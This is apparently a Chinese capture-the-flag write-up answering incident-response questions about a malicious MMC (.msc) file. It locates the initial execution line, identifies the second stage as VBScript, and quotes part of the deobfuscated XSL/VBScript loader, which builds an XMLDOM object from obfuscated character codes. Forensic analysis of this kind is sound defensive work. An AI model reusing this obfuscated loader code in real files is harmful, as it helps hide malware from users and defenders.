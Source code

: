 Microsoft Management Console



# Q4
:::danger
(4/13) 攻击者所投放样本的初始执行语句在该攻击载荷文件的第几行? 示例:20

:::

![](../../../images/35c9c6dfa4169d70e8906882be4a9a29.png)

在 92 行发现东西，交了发现不对，总共就 111 行，试到 97 行就对了。



# Q5
:::danger
(5/13) 经过初始执行后,攻击者所加载的第二部分载荷所使用的语言是什么? 示例:javascript

:::

92 行的东西中间部分 url decode 后可以得到一个脚本，丢给 ai，识别出来这是 vbscript。



# Q6
:::danger
(6/13) 攻击者所进行的第二部分载荷其将白EXE存在了什么地方? (注意:需要提供完成的解混淆后的第二部分载荷s*******s函数的参数) 提交需要MD5(参数内容) 以Cyberchef结果为准 示例:9b04d152845ec0a378394003c96da594

:::

```basic
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
<ms:script implements-prefix="user" language="VBScript">
<![CDATA[
Dim mscLL
mscLL="_MSC"
For i=1 to Len(mscLL) Step 4
  oFmXCTg=oFmXCTg & ChrW(CLng("&"&Chr(72) & Mid(mscLL,i,4)))
Next
Set RTcxFmy=CreateObject(Chr(3440-3363)&Chr(105)&Chr(Int("99"))&"r"&Chr(Int("&H6f"))&Chr(&H73)&Chr(Int("111"))&Chr(102)&Chr(&H74)&Chr(46)&Chr(Int("88"))&Chr(77)&Chr(Int("&H4c"))&"D"&"O"&"M" )
RTcxFmy.Async=Chr(Int("&H46"))&Chr(Int("97"))&Chr(Int("108"))&"s"&Chr(Int("&H65"))
RTcxFmy.Load( oFmXCTg )
AJ8p
Function Xk7fbp8v(inp)
  Dim q4XPbvoV
  Dim HxWK
```